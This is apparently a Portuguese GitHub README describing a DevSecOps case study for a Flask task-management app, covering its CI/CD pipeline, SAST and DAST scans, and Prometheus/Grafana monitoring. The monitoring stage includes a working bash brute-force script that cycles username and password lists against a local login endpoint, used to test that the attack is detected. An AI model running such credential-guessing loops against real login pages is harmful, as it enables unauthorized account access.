 ## INTRODUÇÃO

Este estudo de caso se refere a implementação e segurança de um sistema de gerenciamento de tarefas pessoais, integrando processos de SDLC, DevOps e DevSecOps para garantir eficiência e segurança.
<hr>


### ETAPA 1: PLANEJAMENTO E DEFINIÇÃO DE REQUISITOS

1. Clonar o projeto e instalar das dependências a partir do requiriments.txt:

```
Flask==2.3.2
Flask-Bcrypt==1.0.1
Flask-Login==0.6.3
Flask-SQLAlchemy==3.0.5
Flask-WTF==1.1.1
WTForms==3.1.1
Jinja2==3.1.2
werkzeug==2.3.3
coverage
python-dotenv
prometheus-flask-exporter
```
<br />
   
2. Construir o Diagrama para entender o dominio do problema:

![DFD](https://github.com/gustavogss/task-manager/blob/main/images/dfd.png)
<hr>

### ETAPA 2: DESENVOLVIMENTO DO SISTEMA

***Branchs***: 
- master: produção
- development: desenvolvimento
- staging: homologação


***Ferramentas Utilizadas***: 
- Visual Studio Code
- Gitlab
- Docker
- Python
- Pytest
- Unittest
- Zed Attack Proxy
- Bandit
- OWASP Dependency-Check
- OWASP ZAP
- Hydra 
- Prometheus
- Grafana
  
<br />

1. Implementação do Dockerfile

![dockerfile](https://github.com/gustavogss/task-manager/blob/main/images/dockerfile.png)
<br />


2. Aplicação executada:

![app](https://github.com/gustavogss/task-manager/blob/main/images/app.png)
<hr>


### ETAPA3: IMPLEMENTAÇÃO DE UM PIPELINE CI/CD

1. Implementação do build e deploy na pipeline

![gitlab](https://github.com/gustavogss/task-manager/blob/main/images/gitlabci.png)
<br />

2. Pipeline em execução no gitlab:

![pipeline-inital](https://github.com/gustavogss/task-manager/blob/main/images/pipeline-initial.png)

<hr>


### ETAPA 4: ANÁLISE ESTÁTICA DE CÓDIGO (SAST)

1. Implementação do Bandit na pipeline:

![bandit](https://github.com/gustavogss/task-manager/blob/main/images/bandit.png)
<br />

2. Artefato gerado mostrando dados sensíveis expostos na aplicação:

![artfect-bandit](https://github.com/gustavogss/task-manager/blob/main/images/bandit-artifect.png)
<br />

3. Correção no código da falha capturada pelo Bandit:

![fix-bandit](https://github.com/gustavogss/task-manager/blob/main/images/fixenv.png)

<br />
   
4. Implementação do OWASP Dependency Check na pipeline:

![owasp-dependency-check](https://github.com/gustavogss/task-manager/blob/main/images/owasp-dependecy-check.png)
<br />

5. Artefato gerado com vulnerabilidades no código javascript:

![artfect-dependency](https://github.com/gustavogss/task-manager/blob/main/images/artifect-dependency-check.png)
<hr>

### ETAPA 5: ANÁLISE DINÂMICA DE SEGURANÇA  (DAST)

1. Foi utilizada a aplicação Zed Attack Proxy (ZAP) para fazer uma varredura rápida na aplicação:

 ![zed](https://github.com/gustavogss/task-manager/blob/main/images/zap-attack-tools.png)
  <br />
  
2. Artefato gerado mostrando as vulnerabilidades e níveis de risco:

![artefact-zed](https://github.com/gustavogss/task-manager/blob/main/images/artefact-zap-attack-tools.png)
<hr>

### ETAPA 6: ENTREGA CONTÍNUA (CD)

1. Implementação da etapa revisão de código na pipeline:

![review](https://github.com/gustavogss/task-manager/blob/main/images/review-pipeline.png)
<br />
   
2. Implementação do OWASP ZAP para executar em toda pipeline na homologação: 

![owasp-zap](https://github.com/gustavogss/task-manager/blob/main/images/dast.png)
<hr>


### ETAPA 7: MONITORAMENTO

1. Implementação do Prometheus e Grafana na produção:

![prometehues-grafana](https://github.com/gustavogss/task-manager/blob/main/images/grafana-prometheus.png)
<br />
   
2. Implementação do ataque de bruta force em python:

```
#!/bin/bash

URL="http://localhost:5000/login"   
USERNAMES="usernames.txt"        
PASSWORDS="passwords.txt"       

if [[ ! -f "$USERNAMES" || ! -f "$PASSWORDS" ]]; then
  echo "Os arquivos usernames.txt ou passwords.txt não foram encontrados."
  exit 1
fi

while IFS= read -r username; do
  while IFS= read -r password; do
    echo "Tentando login com Username: $username e Password: $password"    
 
    response=$(curl -s -X POST -d "username=$username&password=$password" "$URL")    
   
    if [[ $response == *"Login successful"* ]]; then
      echo "SUCESSO! Username: $username | Password: $password"
      exit 0
    fi
  done < "$PASSWORDS"
done < "$USERNAMES"
```
<br />
   
3. Acompanhamento pelo Grafana com o ataque de bruta force em execução na rota de login:

![monitory](https://github.com/gustavogss/task-manager/blob/main/images/monitory.png)
<hr>

### ETAPA 8: FEEDBACKS

1. A aplicação é antiga e precisou que algumas bibliotecas fossem atualizadas;
   
2. Foi corrigida uma das vulnerabilidades críticas capturada pelo bandit;
   
3. Testes funcionais e de integração foram implementados na etapa de homologação 
   
4. A pipeline foi testada de ponta a ponta, do desenvolvimento a homologação e produção:

![pipeline-full](https://github.com/gustavogss/task-manager/blob/main/images/pipeline-finished.png)

<br />
